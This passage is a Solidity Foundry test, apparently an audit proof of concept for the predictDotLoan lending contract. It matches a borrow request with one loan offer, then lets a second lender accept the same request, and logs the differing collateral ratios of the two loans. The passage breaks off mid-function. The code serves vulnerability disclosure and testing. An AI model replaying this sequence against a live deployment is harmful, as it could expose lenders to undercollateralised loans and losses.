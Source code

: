 ```solidity

    function setUp() public {
        _deploy();

        vm.prank(alice);
        mockCTF.setApprovalForAll(address(predictDotLoan), true);
        _mintCTF(alice);

        mockERC20.mint(bob, LOAN_AMOUNT);
        vm.prank(bob);
        mockERC20.approve(address(predictDotLoan), LOAN_AMOUNT);

        mockERC20.mint(cindy, LOAN_AMOUNT);
        vm.prank(cindy);
        mockERC20.approve(address(predictDotLoan), LOAN_AMOUNT);
    }

    function test_PoC() public {
        // Collateral ratio: 20 / 10 = 200%
        IPredictDotLoan.Proposal memory borrowRequest = _generateBorrowRequest(
            IPredictDotLoan.QuestionType.Binary,
            alice,
            aliceKey,
            20 ether,
            10 ether
        );

        // Collateral ratio: 5 / 5 = 100%
        IPredictDotLoan.Proposal memory loanOffer = _generateLoanOffer(
            IPredictDotLoan.QuestionType.Binary,
            bob,
            bobKey,
            5 ether,
            5 ether
        );

        predictDotLoan.matchProposals(borrowRequest, loanOffer);

        vm.prank(cindy);
        predictDotLoan.acceptBorrowRequest(borrowRequest, 5 ether);

        console.log("First loan's collateral ratio: %e", predictDotLoan.getLoanCollateralRatio(1));
        console.log("Second loan's collateral ratio: %e", predictDotLoan.getLoanCollateralRatio(2));
    }

    function _generateBorrowRequest(
        IPredictDotLoan.QuestionType questionType,
        address from,
        uint256 privateKey,
        uint256 collateralAmount,
        uint256 loanAmount
    ) internal view returns (IPredictDotLoan.Proposal memory proposal) {
        proposal = _generateBaseProposal(questionType);
        proposal.collateralAmount = collateralAmount;
        proposal.loanAmount = loanAmount;
        proposal.from = from;
        proposal.proposalType = IPredictDotLoan.ProposalType.BorrowRequest;

        (, uint128 borrowingNonce) = predictDotLoan.nonces(from);
        proposal.nonce = borrowingNonce;

        proposal.signature = _signProposal(proposal, privateKey);
```